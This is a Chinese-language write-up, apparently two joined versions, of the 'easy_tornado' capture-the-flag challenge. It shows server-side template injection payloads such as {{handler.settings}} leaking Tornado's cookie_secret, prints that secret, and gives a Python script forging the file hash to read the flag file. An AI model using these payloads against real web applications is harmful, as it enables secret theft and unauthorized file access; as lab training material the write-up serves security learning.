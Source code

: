 1.查看主页面

 [![](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171244384-2105501773.png)](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171244384-2105501773.png)

2.查看其他页面，/welcome.txt

http://111.198.29.45:39004/file?filename=/welcome.txt&filehash=9aeecdd1844b70a3c4c719d2303cfaeb

 [![](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171239530-304397140.png)](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171239530-304397140.png)

/hints.txt

http://111.198.29.45:39004/file?filename=/hints.txt&filehash=9226131c021e8a84f91c65972c94ca3b

 [![](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171236232-491097478.png)](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171236232-491097478.png)

/flag.txt

http://111.198.29.45:39004/file?filename=/flag.txt&filehash=ed15d1deebc3e76eaf460728563f05d7

 [![](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171231073-1709366133.png)](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171231073-1709366133.png)

3.从上面三个页面来看

flag在/fllllllllllllag文件中

url中的filehash是md5(cookie_secret+md5(filename))

可以构造payload为：file?filename=/fllllllllllllag&filehash=********************

filename已知道，只差filehash

4.直接输入/fllllllllllllag尝试，url跳转页面为

 [![](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171223430-722454064.png)](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171223430-722454064.png)

5./welcome.txt页面看到render，可能会是SSTI模板注入

SSTI模板注入详情：https://blog.csdn.net/zz_Caleb/article/details/96480967

尝试验证：

传递error?msg={{2}}，页面出现2

[![](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171207286-270462963.png)](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171207286-270462963.png)

传递error?msg={{2*3}}，页面出现ORZ（但并不是cookie）  
尝试除和减操作符也是）返回ORZ，说明是操作符背过滤了。

 [![](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171204839-559868891.png)](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171204839-559868891.png)

6.通过模板注入如何拿到tornado中的cookie，用的就是handler.settings对象

handler 指向RequestHandler

而RequestHandler.settings又指向self.application.settings

所有handler.settings就指向RequestHandler.application.settings了！

传递error?msg={{ handler.settings }}得到：

 [![](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171155689-116575536.png)](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171155689-116575536.png)

7.使用md5加密构造计算出filehash的值，md5(cookie_secret+md5(/fllllllllllllag))

 [![](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171149872-1092482698.png)](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171149872-1092482698.png)

8.传递参数得到flag

 [![](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171127991-1370394729.png)](https://img2020.cnblogs.com/i-beta/1929500/202003/1929500-20200317171127991-1370394729.png)

# easy_tornado

## **[环境]**

windows

## **[工具]**

Firefox

## **[步骤]**

tornado是python中的一个web应用框架。

拿到题目发现有三个文件：

![](https://adworld.xctf.org.cn/media/task/writeup/cn/easytornado/1.png)

flag.txt

```
/flag.txt
flag in /fllllllllllllag
```

发现flag在/fllllllllllllag文件里；

welcome.txt

```
/welcome.txt
render
```

render是python中的一个渲染函数，渲染变量到模板中，即可以通过传递不同的参数形成不同的页面。

hints.txt

```
/hints.txt
md5(cookie_secret+md5(filename))
```

filehash=md5(cookie_secret+md5(filename))  
现在filename=/fllllllllllllag，只需要知道cookie_secret的既能访问flag。

测试后发现还有一个error界面，格式为/error?msg=Error，怀疑存在服务端模板注入攻击 （SSTI）

尝试/error?msg={{datetime}}  
在Tornado的前端页面模板中，datetime是指向python中datetime这个模块，Tornado提供了一些对象别名来快速访问对象，可以参考Tornado官方文档

![](https://adworld.xctf.org.cn/media/task/writeup/cn/easytornado/2.png)

通过查阅文档发现cookie_secret在Application对象settings属性中，还发现self.application.settings有一个别名

```
RequestHandler.settings
An alias for self.application.settings.
```

handler指向的处理当前这个页面的RequestHandler对象，  
RequestHandler.settings指向self.application.settings，  
因此handler.settings指向RequestHandler.application.settings。

构造payload获取cookie_secret

```
/error?msg={{handler.settings}}
```

![](https://adworld.xctf.org.cn/media/task/writeup/cn/easytornado/3.png)

```
'cookie_secret': 'M)Z.>}{O]lYIp(oW7$dc132uDaK<C%wqj@PA![VtR#geh9UHsbnL_+mT5N~J84*r'
```

计算filehash值:

```
import hashlib

def md5(s):
 md5 = hashlib.md5() 
 md5.update(s) 
 return md5.hexdigest()
 
def filehash():
 filename = '/fllllllllllllag'
 cookie_secret = 'M)Z.>}{O]lYIp(oW7$dc132uDaK<C%wqj@PA![VtR#geh9UHsbnL_+mT5N~J84*r'
 print(md5(cookie_secret+md5(filename)))
 
if __name__ == '__main__':
 filehash()
```

payload：

```
file?filename=/fllllllllllllag&filehash=md5(cookie_secret+md5(/fllllllllllllag))
```

成功获取flag。